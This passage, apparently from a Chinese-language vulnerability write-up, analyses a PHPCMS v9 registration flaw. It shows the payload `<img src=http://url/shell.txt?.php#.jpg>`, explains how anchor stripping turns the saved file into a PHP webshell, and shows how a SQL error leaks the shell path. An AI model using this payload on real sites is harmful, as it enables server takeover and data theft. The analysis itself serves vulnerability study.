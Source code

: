 函数中先对$value中的引号进行了转义，然后使用正则匹配：
```php
$ext = 'gif|jpg|jpeg|bmp|png';
...
$string = new_stripslashes($value);
if(!preg_match_all("/(href|src)=([\"|']?)([^ \"'>]+\.($ext)
```

这里正则要求输入满足src/href=url.(gif|jpg|jpeg|bmp|png)，我们的 payload （`<img src=http://url/shell.txt?.php#.jpg>`）符合这一格式（这也就是为什么后面要加.jpg的原因）。

接下来程序使用这行代码来去除 url 中的锚点：$remotefileurls[$matche] = $this->fillurl($matche, $absurl, $basehref);，处理过后$remotefileurls的内容为: 
`http://xxx/shell.txt?.php`

可以看到#.jpg被删除了，正因如此，下面的`$filename = fileext($file);`取的的后缀变成了php(这也就是 PoC 中为什么要加#的原因：把前面为了满足正则而构造的.jpg过滤掉，使程序获得我们真正想要的php文件后缀)

```php
function fileext($filename) {
	return strtolower(trim(substr(strrchr($filename, '.'), 1, 10)));
}
```

strrchr — 查找指定字符在字符串中的最后一次出现

继续执行，程序调用copy函数， copy函数可以传入一个url作为远程文件名，到这里我们已经在`/uploadfile/Y/md/`目录下写入了一个php马。

那么如果shell的路径呢？ ，这里有两种方法:

1. 程序继续运行后返回到register函数

```php
if(pc_base::load_config('system', 'phpsso')) {
	$this->_init_phpsso();
	$status = $this->client->ps_member_register($userinfo['username'], $userinfo['password'], $userinfo['email'], $userinfo['regip'], $userinfo['encrypt']);
	if($status > 0) {
		$userinfo['phpssouid'] = $status;
		//传入phpsso为明文密码，加密后存入phpcms_v9
		$password = $userinfo['password'];
		$userinfo['password'] = password($userinfo['password'], $userinfo['encrypt']);
		$userid = $this->db->insert($userinfo, 1);
		if($member_setting['choosemodel']) {	//如果开启选择模型
			$user_model_info['userid'] = $userid;
			//插入会员模型数据
			$this->db->set_model($userinfo['modelid']);
			$this->db->insert($user_model_info);
		}
```

可以看到当$status > 0时会执行 SQL 语句进行 INSERT 操作，也就是向v9_member_detail的content和userid两列插入数据，我们看一下该表的结构：因为表中并没有content列，所以产生报错，从而将插入数据中的 shell 路径返回给了我们：


那么什么时候$status>0呢？

几个小于0的状态码都是因为用户名和邮箱，所以在 payload 中用户名和邮箱要尽量随机。
